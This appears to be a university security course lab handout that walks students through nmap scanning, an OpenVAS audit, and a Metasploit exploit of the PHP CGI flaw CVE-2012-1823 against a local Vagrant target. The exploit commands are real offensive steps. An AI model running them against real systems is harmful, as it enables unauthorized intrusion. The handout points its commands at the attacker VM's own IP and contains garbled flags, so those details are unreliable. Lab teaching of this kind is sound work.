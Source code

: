 # CSCD27 Lab 10: Penetration Testing

## Vagrant Setup

Unfortunately, this vagrant setup does not work on the linux lab. To do this exercise, you will need to install Virtualbox and Vagrant on your personal laptop.

Once installed, you can use the following vagrant boxes:
```shell
cd ~/cscd27f16_space/CSCD27-F16/assignments/03/code/part2
$ vagrant up
```

The vagrant setup is composed of two boxes:
- **kali** is the attacker's machine (ip 10.0.1.101)
- **target** is the victim's machine (ip 10.0.1.102)

In this setup, you should use exclusively ssh into the kali VM but not in the target VM.

## Nmap - Network Mapping and Host Fingerprinting

In this first part, we are going to use nmap to discover the services running on the target machine. This command exports the results in a file called `target.nmap`:

```shell
$ nmap -O —sV -p0-65535 10.0.1.101 -oN target.nmap
```

## OpenVAS - Vulnerability Scanner

In this first part, we are going to use OpenVAS vulnerability scanner to audit the security of the target:

```shell
$ openvas-setup
$ openvas-start
Starting OpenVas Services
Starting Greenbone Security Assistant: gsad.
Starting OpenVAS Scanner: openvassd.
Starting OpenVAS Manager: openvasmd.
```

**Important:** Make sure that the 4 OpenVAS components have all started correctly without any `ERROR`. If any, stop OpenVAS (`openvas-stop`) and restart it.

Once OpenVAS has correctly started, add the admin user:

```shell
$ openvasmd —create-user=admin
$ openvasmd —new-password=admin —user=admin
```

Finally, scan the target and export (as a pdf) the report through the OpenVAS web interface (https://localhost:9392)[https://localhost:9392]

## Metasploit - Exploit Framework

In this third part, we are going to use Metasploit to exploit a vulnerability ([CVE-2012-1823](http://www.cvedetails.com/cve/CVE-2012-1823/)) in the CGI module of PHP (versions before 5.3.12 and before 5.4.2). First, let us update and start the metasploit console:

```shell
$ msfupdate
$ service postgresql start
$ msfconsole
```

Thus, we can load, configure and run the exploit:

1. load the `php_cgi_arg_injection­or` exploit

    ```shell
    msf > use exploit/multi/http/php_cgi_arg_injection
    ```

2. show and assign values to the exploit arguments:

    ```shell
    msf > show options
    msf > set TARGET 10.0.1.101
    ```

3. run the exploit

    ```
    msf > exploit
    ```


